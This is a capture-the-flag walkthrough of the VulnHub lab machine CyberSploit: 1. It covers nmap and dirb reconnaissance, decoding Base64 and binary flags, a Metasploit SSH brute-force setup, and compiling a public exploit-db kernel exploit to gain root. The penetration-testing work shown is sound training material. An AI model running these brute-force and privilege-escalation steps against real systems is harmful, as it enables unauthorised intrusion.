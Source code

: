 # CyberSploit: 1 @VulnHub

Difficulty: EASY

Flags: 3

Keywords and tools: nmap, decode, kernel exploit, google

### Check that host is alive and responds to ping
```                                                                            
$ ping 192.168.5.11
PING 192.168.5.11 (192.168.5.11) 56(84) bytes of data.
64 bytes from 192.168.5.11: icmp_seq=1 ttl=64 time=0.612 ms
```
### Run nmap
```
$ nmap -sV -n -v -Pn -p- -T4 -A 192.168.5.11 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 01:1b:c8:fe:18:71:28:60:84:6a:9f:30:35:11:66:3d (DSA)
|   2048 d9:53:14:a3:7f:99:51:40:3f:49:ef:ef:7f:8b:35:de (RSA)
|_  256 ef:43:5b:d0:c0:eb:ee:3e:76:61:5c:6d:ce:15:fe:7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hello Pentester!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We have SSH and HTTP ports open.

### Run dirb
```
$ dirb http://192.168.5.11
+ http://192.168.5.11/cgi-bin/ (CODE:403|SIZE:288)
+ http://192.168.5.11/hacker (CODE:200|SIZE:3757743)
+ http://192.168.5.11/index (CODE:200|SIZE:2333)
+ http://192.168.5.11/index.html (CODE:200|SIZE:2333)
+ http://192.168.5.11/robots (CODE:200|SIZE:79)
+ http://192.168.5.11/robots.txt (CODE:200|SIZE:79)
+ http://192.168.5.11/server-status (CODE:403|SIZE:293)  
```
Found couple interesting things, lets see them via browser.

On main page we see when inspecting the source code <!-------------username:itsskv--------------------->

/robots gives us R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9 which looks like Base64 so we can try to decode it here: https://www.base64decode.org/

Good Work ! Flag1: cybersploit{youtube.com/c/cybersploit}

### Bruteforce the SSH
```
$ msfconsole
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set username itsskv
msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.5.11
msf6 auxiliary(scanner/ssh/ssh_login) > set pass_file /usr/share/seclists/Passwords/Common-Credentials/best110.txt
msf6 auxiliary(scanner/ssh/ssh_login) > run
```
After a while I figured that maybe the flag1 was the password. Remember to keep it simple...
```
$ ssh itsskv@192.168.5.11
itsskv@192.168.5.11's password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

332 packages can be updated.
273 updates are security updates.

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Your Hardware Enablement Stack (HWE) is supported until April 2017.

Last login: Sat Jun 27 10:14:39 2020 from cybersploit.local
itsskv@cybersploit-CTF:~$ ls
Desktop  Documents  Downloads  examples.desktop  flag2.txt  Music  Pictures  Public  Templates  Videos
itsskv@cybersploit-CTF:~$ cat flag2.txt 
01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101
```
We can decode binary to text, using any service you find with google. I used https://cryptii.com/pipes/binary-decoder:

good work !
flag2: cybersploit{https:t.me/cybersploit1}
### Privilege escalation
```
itsskv@cybersploit-CTF:~$ sudo -l
[sudo] password for itsskv: 
Sorry, user itsskv may not run sudo on cybersploit-CTF.
itsskv@cybersploit-CTF:~$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 12.04.5 LTS
Release:	12.04
Codename:	precise
```
After quick googling found a way to locally escalate privileges: https://www.exploit-db.com/exploits/37292
```
itsskv@cybersploit-CTF:~$ cd /tmp
itsskv@cybersploit-CTF:~$ nano exploit.c  					#Paste the code from the exploit-db.com
itsskv@cybersploit-CTF:/tmp$ gcc exploit.c -o exploit		#Compile the exploit
itsskv@cybersploit-CTF:/tmp$ ./exploit						#Run the exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# cd /root
# ls
finalflag.txt
# cat finalflag.txt
  ______ ____    ____ .______    _______ .______          _______..______    __        ______    __  .___________.
 /      |\   \  /   / |   _  \  |   ____||   _  \        /       ||   _  \  |  |      /  __  \  |  | |           |
|  ,----' \   \/   /  |  |_)  | |  |__   |  |_)  |      |   (----`|  |_)  | |  |     |  |  |  | |  | `---|  |----`
|  |       \_    _/   |   _  <  |   __|  |      /        \   \    |   ___/  |  |     |  |  |  | |  |     |  |     
|  `----.    |  |     |  |_)  | |  |____ |  |\  \----.----)   |   |  |      |  `----.|  `--'  | |  |     |  |     
 \______|    |__|     |______/  |_______|| _| `._____|_______/    | _|      |_______| \______/  |__|     |__|     
                                                                                                                  

   _   _   _   _   _   _   _   _   _   _   _   _   _   _   _  
  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
 ( c | o | n | g | r | a | t | u | l | a | t | i | o | n | s )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 

flag3: cybersploit{Z3X21CW42C4 many many congratulations !}

if you like it share with me https://twitter.com/cybersploit1.

Thanks !
```
And we have our final flag.
